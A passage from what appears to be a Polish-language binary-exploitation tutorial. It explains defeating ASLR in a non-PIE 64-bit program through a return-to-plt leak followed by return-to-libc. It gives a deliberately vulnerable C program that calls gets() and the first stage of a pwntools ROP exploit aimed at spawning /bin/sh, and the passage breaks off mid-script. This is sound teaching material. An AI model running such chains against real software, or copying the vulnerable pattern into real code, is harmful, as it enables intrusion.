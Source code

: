 ##### Zastosowanie  w praktyce <a name="zastosowanie_pie"></a>

Ponieważ prezentacja PIE bez włączonego ASLR nie miałaby zbytnio sensu, to zacznę od eksploatacji programu skompilowanego bez obsługi PIE, lecz z włączonym w systemie ASLR. Dodatkowym utrudnieniem jest to, że program został skompilowany na procesory 64-bitowe, czyli argumenty do funkcji przekazywane są za pomocą rejestrów. W celu eksploitacji tego programu zastosuję, wcześniej wspomniany, atak return-to-plt (w połączeniu z return-to-libc) i będzie on polegał na wykorzystaniu sekcji PLT, jako punktu odniesienia, dzięki któremu będzie można wyliczyć adres biblioteki libc. 

<font size=1>

```c
#include <stdio.h>

void vuln() {
  puts("It never gets old");
  char buffer[64];
  gets(buffer);
}

int main() {
  vuln();
  return 0;
}
```

</font>

Poniższy eksploit działa w dwóch etapach, a jego celem wywołanie funkcji `system` z parametrem `/bin/sh`. Aby było to możliwe należy najpierw uzyskać adres biblioteki libc. Wiadomo, że w wypadku programu skompilowanego bez PIE, offset do sekcji `PLT` jest znany i niezmienny. Jeśli dodatkowo uda się ujawnić adres jakiejś funkcji (z biblioteki libc) w trakcie działania programu, to można z tych danych wyliczyć adres biblioteki libc. Dlatego zadaniem pierwszego etapu eksploitu jest wypisanie adresu funkcji `gets`, a następnie przekierowanie wykonywania programu ponownie do funkcji `main`. Teraz od uzyskanego adresu wystarczy odjąć odczytany z pliku ELF offset. Znając już adres biblioteki libc, eksploit przechodzi do drugiego etapu, w którym wykonuje atak return-to-libc poprzez nadpisanie adresu powrotu funkcji `vuln`.  Podczas pisania tego eksploitu długo nie mogłem znaleźć powodu, dla którego na ostatnim etapie, gdy wołana była funkcja `system`, program zwracał `SIGSEGV`. Okazało się, że na Ubuntu, w trakcie wołania funkcji `do_system` wykonywana jest dodatkowa instrukcja `movaps`, której zadaniem jest wczytanie danych na stos. Nie było by w tym nic specjalnego, gdyby nie to, że wymaga ona, aby stos był wyrównany do 16 bajtów.

<font size=1>

```python
import sys
from pwn import *

# debuggowanie
#p = gdb.debug('./vuln-64', ''  break vuln   c''')
#context.log_level = 'DEBUG'

##########  przygotowanie  ###########
PADDING_SIZE = 72                            # buffer+padding - tyle zeby nadpisac rbp na stosie
PATH_TO_BINARY = sys.argv[1]                 # sciezka do eksploitowanego programu
elf = context.binary = ELF(PATH_TO_BINARY)
libc = elf.libc
p = process()

##############  etap 1  ##############
p.recvline()
rop = ROP(elf)
rop.raw('A'*PADDING_SIZE)
rop.raw(rop.rdi)
rop.raw(elf.got['gets'])
rop.raw(elf.plt['puts'])
```